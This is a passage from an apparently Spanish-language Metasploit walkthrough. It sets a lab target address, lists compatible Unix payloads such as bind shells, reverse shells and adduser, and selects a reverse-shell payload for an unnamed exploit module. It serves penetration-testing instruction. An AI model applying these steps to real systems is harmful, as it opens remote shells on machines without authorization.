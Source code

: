 ```shell
set RHOSTS 192.168.16.129
```

Y si ahora volvemos a poner `show options` podremos ver como se establecio correctamente la opcion del `RHOSTS`.

Antes de ejecutarlo, tendremos que seleccionar el `payload` necesario para este `exploit` y eso podremos hacerlo mirando cuales nos ofrece `metasploit` en este `exploit` de la siguiente forma:

```shell
show payloads
```

Info:

```
Compatible Payloads
===================

   #   Name                                        Disclosure Date  Rank    Check  Description
   -   ----                                        ---------------  ----    -----  -----------
   0   payload/cmd/unix/adduser                                     normal  No     Add user with useradd
   1   payload/cmd/unix/bind_perl                                   normal  No     Unix Command Shell, Bind TCP (via Perl)
   2   payload/cmd/unix/bind_perl_ipv6                              normal  No     Unix Command Shell, Bind TCP (via perl) IPv6
   3   payload/cmd/unix/bind_ruby                                   normal  No     Unix Command Shell, Bind TCP (via Ruby)
   4   payload/cmd/unix/bind_ruby_ipv6                              normal  No     Unix Command Shell, Bind TCP (via Ruby) IPv6
   5   payload/cmd/unix/generic                                     normal  No     Unix Command, Generic Command Execution
   6   payload/cmd/unix/reverse                                     normal  No     Unix Command Shell, Double Reverse TCP (telnet)
   7   payload/cmd/unix/reverse_bash_telnet_ssl                     normal  No     Unix Command Shell, Reverse TCP SSL (telnet)
   8   payload/cmd/unix/reverse_perl                                normal  No     Unix Command Shell, Reverse TCP (via Perl)
   9   payload/cmd/unix/reverse_perl_ssl                            normal  No     Unix Command Shell, Reverse TCP SSL (via perl)
   10  payload/cmd/unix/reverse_ruby                                normal  No     Unix Command Shell, Reverse TCP (via Ruby)
   11  payload/cmd/unix/reverse_ruby_ssl                            normal  No     Unix Command Shell, Reverse TCP SSL (via Ruby)
   12  payload/cmd/unix/reverse_ssl_double_telnet                   normal  No     Unix Command Shell, Double Reverse TCP SSL (telnet)
```

En mi caso el que puede funcionar de forma generica y que esta muy bien es el numero `6` el llamado tambien como `payload/cmd/unix/reverse`, por lo que lo seleccionaremos haciendo lo siguiente:

```shell
set payload payload/cmd/unix/reverse
```
